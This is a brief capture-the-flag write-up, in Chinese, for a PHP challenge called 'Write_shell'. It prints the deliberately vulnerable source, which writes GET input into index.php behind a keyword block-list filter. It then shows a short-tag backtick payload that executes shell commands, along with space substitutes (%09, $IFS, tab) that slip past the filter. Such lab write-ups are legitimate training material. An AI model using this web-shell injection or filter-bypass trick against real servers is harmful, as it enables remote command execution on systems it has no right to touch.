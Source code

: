 ### Write_shell
源码：
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```
默认是开启了短标签，那么
```demo
?action=upload&data=<?=`ls`?>
```
是ok的 因为空格被过滤了，我们需要找到代替空格的地方。
测试以下代替空格都可以：
```
%09 
\$IFS
\t
```
后面就直接读flag即可。
